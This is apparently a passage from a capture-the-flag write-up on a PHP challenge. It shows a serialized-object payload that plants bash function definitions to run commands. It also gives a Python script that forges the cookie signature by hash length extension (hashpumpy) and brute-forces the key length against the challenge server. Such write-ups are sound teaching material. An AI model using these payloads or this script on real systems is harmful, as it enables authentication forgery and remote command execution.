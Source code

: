 ```php
}

$greeting = [new Greeting];
$serialized_info = implode(' ', array_map('serialize',$greeting));
echo $serialized_info;
```

Now we need to append a pipe operator, `|`, to make sure its exploded properly (I think php naming, i.e. implode, explode is extremely amusing)

```php
$serialized_info = explode('|', $serialized_info);
$infos = array_map('unserialize_safe', $serialized_info);
foreach ($infos as $info) {
    if ($info instanceof Greeting) {
        $info->sayHi();
    }
}
```

So our full payload is

```
O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}
```

> Note: The null characters, \x00, are important and can be checked by using BurpSuite

Now for the final part, which is to figure out an appropriate signature for this. We can just use `hashpumpy` (reference link below) to give us a forged signature. We don't know the length of the key, so an easy way is to keep brute forcing, until the cookie returned was not the signature of the original message.

```python
import hashpumpy
import requests
import urllib.parse

info = b"""O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}"""
signature = "ac404ceb2667d969d171a2f41dea1c110fd8020ad088237fe53ab293631f93ee"

data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}"""
url = "http://34.142.161.21:12321/hello.php"

def figureOutLength():
    for i in range(1,512):
        sig, payload = hashpumpy.hashpump(signature, info, data_to_add, i)
        payload = urllib.parse.quote_plus(payload)
        cookies = {
            "info": payload,
            "signature": sig
        }
        r = requests.get(url, cookies=cookies, allow_redirects=False)

        if(r.cookies['signature'] == signature):
            print('bad')
        else:
            # found our length here
            print('good', i)
            print(r.text)
            break
```
